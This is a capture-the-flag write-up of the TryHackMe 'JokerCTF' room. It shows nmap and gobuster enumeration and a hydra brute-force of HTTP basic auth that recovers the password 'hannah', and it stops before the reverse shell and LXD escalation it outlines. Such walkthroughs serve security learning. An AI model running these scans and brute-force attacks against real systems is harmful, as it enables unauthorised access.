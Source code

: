 JokerCTF
This is my write-up for the room [JokerCTF](https://tryhackme.com/room/jokerctf)

Description: We have developed this lab for the purpose of online penetration practices. Solving this lab is not that tough if you have proper basic knowledge of Penetration testing. Let’s start and learn how to breach it.

Enumerate Services
- Nmap
Bruteforce
- Performing Bruteforce on files over http
- Performing Bruteforce on Basic Authentication
Hash Crack
- Performing Bruteforce on hash to crack zip file
- Performing Bruteforce on hash to crack mysql user
Exploitation
- Getting a reverse connection
- Spawning a TTY Shell
Privilege Escalation
- Get root taking advantage of flaws in LXD

Difficulty
My Difficulty:

Try Hackme Difficulty: Medium



Reconnaissance
Host = 10.10.150.7581.3

Enumeration / Scanning
Let's start with an initial Nmap scan.

Service / Port Enumeration

# NMAP

```console
nmap -sC -sV -A -T4 -Pn 10.10.150.75
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-28 09:30 PDT
Nmap scan report for 10.10.150.75
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
|_  256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA: Joker
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
|_http-title: 401 Unauthorized
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.49 seconds
```

We see that ports 22, 80, and 8080 are open

### Browsing to 10.10.150.75

![Screenshot_2022-03-28_09-38-39](https://user-images.githubusercontent.com/68706090/160445902-dcb477e5-c1f4-430d-b5cf-faf68d790464.png)

Going through this page there are a few images with joker quotes, they may come in handy, but lets keep looking for the first secret. 

![Screenshot_2022-03-28_09-40-30](https://user-images.githubusercontent.com/68706090/160446146-5d4e48ac-70ff-44b9-acfe-15c76f66d0ad.png)

There is allot to read in this section, so let start from the top and work our way down. Nothing but a good story, so lets run go buster. I like to start with a common or small wordlist then run a larger one to follow up, just so i can start searching things and then find out if i missed anything. 

# GOBUSTER
```console
gobuster dir -u http://10.10.150.75 -w /home/noob2uub/Documents/Wordlists/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.75
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/noob2uub/Documents/Wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/28 09:48:24 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.150.75/css/]
/img                  (Status: 301) [Size: 310] [--> http://10.10.150.75/img/]
/index.html           (Status: 200) [Size: 5954]                              
/phpinfo.php          (Status: 200) [Size: 94768]                             
/server-status        (Status: 403) [Size: 277]                               
                                                                              
===============================================================
2022/03/28 09:49:35 Finished
===============================================================
```

nothing to exciting here so I dedcided to run a 2.3-small.txt and another common.txt scan but for php,html, and txt

```console
gobuster dir -u http://10.10.150.75 -w /home/noob2uub/Documents/Wordlists/common.txt -x php,html,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.75
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/noob2uub/Documents/Wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2022/03/28 09:52:36 Starting gobuster in directory enumeration mode
===============================================================
/.hta.html            (Status: 403) [Size: 277]
/.hta.txt             (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.150.75/css/]
/img                  (Status: 301) [Size: 310] [--> http://10.10.150.75/img/]
/index.html           (Status: 200) [Size: 5954]                              
/index.html           (Status: 200) [Size: 5954]                              
/phpinfo.php          (Status: 200) [Size: 94768]                             
/phpinfo.php          (Status: 200) [Size: 94768]                             
/secret.txt           (Status: 200) [Size: 320]                               
/server-status        (Status: 403) [Size: 277]                               
                                                                              
===============================================================
2022/03/28 09:57:18 Finished
===============================================================
```
### We find secret.txt that should be something interesting. 

```console
Batman hits Joker.

Joker: "Bats you may be a rock but you won't break me." (Laughs!)

Batman: "I will break you with this rock. You made a mistake now."

Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."

Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```
Nothing to interestesting just an exchange between the two, lets run a .txt search with another word list. Maybe rockyou since he talks about hitting him with a rock?

Ok, that was a waste of time the flag was a bit more obvious then I thought it would be.  

### Browsing to port 8080

We see we have a weblogin available, so lets gather a bit more information on this page. 

![Screenshot_2022-03-28_10-12-29](https://user-images.githubusercontent.com/68706090/160451447-84d63393-782c-438c-bcb9-9bc8beb964b2.png)

Below shows we just have to do basic authentication with hydra using http-get

![Screenshot_2022-03-28_10-32-22](https://user-images.githubusercontent.com/68706090/160454467-2abac213-0e4a-4655-989c-3aae601b86fc.png)

#Hydra

```console
hydra -l joker -P /home/noob2uub/Documents/Wordlists/rockyou.txt -s 8080 -f 10.10.150.75 http-get
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-28 10:30:53
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.150.75:8080/
[8080][http-get] host: 10.10.150.75   login: joker   password: hannah
[STATUS] attack finished for 10.10.150.75 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-28 10:31:25
```




